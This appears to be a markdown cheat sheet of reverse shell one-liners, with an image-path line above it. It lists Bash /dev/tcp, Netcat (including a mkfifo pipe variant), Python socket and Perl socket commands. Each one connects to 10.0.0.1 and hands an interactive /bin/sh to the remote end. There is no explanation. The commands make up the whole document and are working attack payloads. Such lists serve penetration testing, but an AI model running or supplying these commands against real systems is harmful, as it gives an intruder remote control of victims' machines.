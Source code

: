 # ReverseShell

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
nc.traditional -e /bin/sh 10.0.0.1 1234
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

## Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))
if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```
